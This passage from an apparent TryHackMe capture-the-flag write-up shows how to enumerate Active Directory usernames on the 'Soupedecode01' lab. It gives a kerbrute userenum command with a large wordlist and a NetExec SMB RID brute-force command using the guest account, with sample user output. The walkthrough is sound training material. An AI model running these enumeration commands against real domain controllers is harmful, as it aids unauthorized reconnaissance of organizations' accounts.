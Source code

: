 
---

### Discover Usernames

#### option |

```sh
kerbrute userenum -d SOUPEDECODE.LOCAL /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --dc DC01.SOUPEDECODE.LOCAL
```
{: .wrap }

But sadly this option takes a lot of time

![](/images/TryHackMe/Soupedecode01/kerbrute.png)

---

#### option ||
We can Leveraging our access to the `IPC$` share, to perform a `RID brute-force` attack against a domain controller `DC01.SOUPEDECODE.LOCAL` with the `guest` account to enumerate domain users.
```sh
nxc smb DC01.SOUPEDECODE.LOCAL -u 'guest' -p '' --rid-brute 2500
```

```sh
SMB         10.10.150.50    445    DC01             1416: SOUPEDECODE\mpeter317 (SidTypeUser)
SMB         10.10.150.50    445    DC01             1417: SOUPEDECODE\bpenny318 (SidTypeUser)
...
SMB         10.10.150.50    445    DC01             1418: SOUPEDECODE\fian319 (SidTypeUser)
SMB         10.10.150.50    445    DC01             1419: SOUPEDECODE\atara320 (SidTypeUser)
...
SMB         10.10.150.50    445    DC01             1420: SOUPEDECODE\vnoah321 (SidTypeUser)
SMB         10.10.150.50    445    DC01             1421: SOUPEDECODE\prachel322 (SidTypeUser)
...
```
